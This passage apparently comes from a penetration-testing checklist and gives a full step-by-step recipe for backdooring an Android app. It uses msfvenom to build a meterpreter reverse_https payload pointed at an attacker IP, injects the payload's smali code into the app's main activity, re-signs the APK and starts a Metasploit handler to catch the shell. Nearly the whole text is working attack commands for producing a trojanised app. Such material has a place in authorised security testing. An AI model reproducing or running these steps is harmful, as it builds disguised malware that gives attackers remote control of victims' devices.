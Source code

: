     [NON XAMARIN APPS]
        1) msfvenom -p android/meterpreter/reverse_https LHOST=&lt;ATTACKER-IP&gt; LPORT=&lt;ATTACKER-PORT&gt; -o meterpreter.apk
        2) Decompile meterpreter.apk & original app_name.apk
            2.1) apktool d -f -o ./payload_apk /path/to/your/meterpreter.apk
            2.2) apktool d -f -o ./original_apk /path/to/your/app_name.apk
        3) Create folder: mkdir ./original_apk/metasploit; mkdir ./original_apk/metasploit/stage 
        4) Copy payload-files: cp ./payload_apk/smali/com/metasploit/stage/* ./original_apk/smali/metasploit/stage/
        5) Get MainActivity name: Search in AndroidManifest.xml for an &lt;activity&gt;-Tag which contains both:
            5.1) &lt;action android:name="android.intent.action.MAIN"/&gt;
            5.2) &lt;category android:name="android.intent.category.LAUNCHER"/&gt;
            5.3) Look out for the tag-parameter: android:name="core.MainActivity" (it can have a different name, core indicates a directory within the smali dir)
        6) Open the MainActivity.smali:
            6.1) Search for: ;-&gt;onCreate(Landroid/os/Bundle;)V
            6.2) Add the following in the next line (after 6.1): invoke-static {p0}, Lcom/metasploit/stage/Payload;-&gt;start(Landroid/content/Context;)V
        7) Copy all necessary app-permissions from ./meterpreter/AndroidManifest.xml into the original ./original_apk/AndroidManifest.xml (check for duplicates -&gt; otherwise some meterpreter functions will not work, due to missing permissions)
        8) Recompile: apktool b ./original_apk
        9) Sign apk: 
            9.1) create key: keytool -genkey -v -keystore my-release-key.keystore -alias myalias  -keyalg RSA -keysize 2048 -validity 10000
                !) remember the password you used
            9.2) sign apk: /home/&lt;user&gt;/Android/Sdk/build-tools/&lt;27.0.3_OR_CHECK_YOUR_USED_VERSION&gt;/apksigner sign --ks my-release-key.keystore ./original_apk/dist/app_name.apk
        10) run a meterpreter session handler:
            10.1) msfconsole
            10.2) use multi/handler
            10.3) set payload android/meterpreter/reverse_https
            10.4) set LHOST &lt;ATTACKER-IP&gt; (same as used to generate the payload - see step 1)
            10.5) set LPORT &lt;ATTACKER-PORT&gt; (same as used to generate the payload - see step 1)
            10.6) run
        11) install apk on device: adb install /path/to/app_with_backdoor.apk
        12) Start app on device
        13) Have fun ;) 

        [INFO]
            -) Guide I excerpted - worked multiple times at work: <a href="https://null-byte.wonderhowto.com/how-to/embed-metasploit-payload-original-apk-file-part-2-do-manually-0167124/" target="_blank">wonderhowto</a>

    XAMARIN APPS
        ?) !!! TBD !!! - dll-injection? I was not able to find anything useful - appreciate any input here!! 

    [THINGS TO REPORT]
        !) If it works (don't give up if it does not work the easy way)

<i>/////////////////////////////////
4b) OTHER WAYS TO BACKDOOR AN APP
/////////////////////////////////</i>

    !!! TBD !!! - appreciate any input here!! 

<i>///////////////
4c) ANDROID NDK
///////////////</i>

    !!! TBD !!! - appreciate any input here!! 

</pre>
